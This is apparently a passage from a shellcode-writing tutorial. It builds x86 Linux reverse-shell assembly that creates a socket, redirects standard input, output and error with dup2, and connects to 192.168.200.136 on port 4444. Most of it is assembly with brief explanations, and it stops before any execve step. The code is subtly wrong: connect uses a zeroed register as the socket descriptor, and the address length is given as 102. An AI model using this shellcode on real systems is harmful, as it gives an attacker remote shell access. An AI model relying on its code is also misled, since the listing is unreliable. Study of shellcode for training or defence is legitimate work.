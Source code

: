 we can set all the registers to 0 for later usage as following: 

{% highlight js %}
;init the registers
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx
xor esi, esi
xor edi, edi
{% endhighlight %}

We create a socket at first, “domain”, “type” and “protocol” are arguments we are supposed to pass into. [Socket Man Page](https://man7.org/linux/man-pages/man2/socket.2.html){:target="_blank"}

{% highlight js %}
;create a socket
mov ax, 359 ;call the socket
mov bl, 2 ;set domain to 2
mov cl, 1 ; set type to 1
int 0x80
{% endhighlight %}

"Dup2" takes two arguments, "oldfd" and "newfd". We will set the "oldfd" with the file descriptor returned by "socket". We will call dup2 three times and set "stderr", "stdout", and "stdin" for the "newfd" each time. So, we use a loop which starts at 3, and decreases the value till 0 and calls the dup2 total of three times. [Dup2 Man Page](https://man7.org/linux/man-pages/man2/dup.2.html){:target="_blank"}

{% highlight js %}
;dup2, essentially it gives us ability to enter command and see output in our shell
mov ebx, eax ;get the oldfd
mov cl, 3 ;the newfd, stdin, stdout, std error
dup2:
	xor eax,eax ;reset the eax
	mov al, 63 ;call dup2
	int 0x80
	dec ecx ;minus the ecx by 1
	jns dup2 ;jump if not signed
{% endhighlight %}

"Connect" takes three arguments, "sockfd", "addr" structure, and "addrlen". "sockfd" stores the file descriptor retured from the "socket" system call. We build the "addr" structure with a stack where it contains variable "sin_zero", "sin_addr", "sin_port", and "sin_family". [Connect Man Page](https://man7.org/linux/man-pages/man2/connect.2.html){:target="_blank"}

{% highlight js %}
;call connect
xor ebx, ebx ;clear ebx
mov ebx, esi ;set sockfd to the returned 
mov ax, 362 ;call connect
push edi
push dword 0x88c8a8c0 ;192.168.200.136 in hex c0.a8.c8.88 (0xc0a8c888)
push word 0x5c11 ;port 4444
push word 0x2	;sin family
mov ecx, esp	;let ecx points to the start of the stack
mov dl, 102	;addess length is 102
int 0x80
{% endhighlight %}
